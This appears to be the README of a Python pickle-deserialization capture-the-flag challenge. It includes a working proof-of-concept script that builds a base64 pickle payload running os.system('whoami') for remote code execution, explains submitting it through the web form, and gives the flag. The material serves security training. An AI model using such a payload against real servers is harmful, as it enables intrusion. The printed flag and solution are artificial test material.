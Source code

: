# Anime

Simple CTF challenge to train exploiting insecure deserialization in python pickle lib.

## Description

In this task, you need to send malicious input to "Request anime form" to trigger insecure deserialization in python pickle lib. First of all, you need to create a payload, which can lead to RCE on the server. You can achieve this for example with this script:

```
import os
import pickle
import base64

class RCE:
    def __reduce__(self):
        cmd = (os.system, ('whoami',))
        return cmd

if __name__ == '__main__':
    pickled = pickle.dumps(RCE())
    print(base64.urlsafe_b64encode(pickled))
```

After running this script you will be prompted with base64 output, which you need to paste into the "Anime name" form field. Run any command that can be run on the linux server and you will get the flag.

> flag{d4ng3r0us_4n1m3}
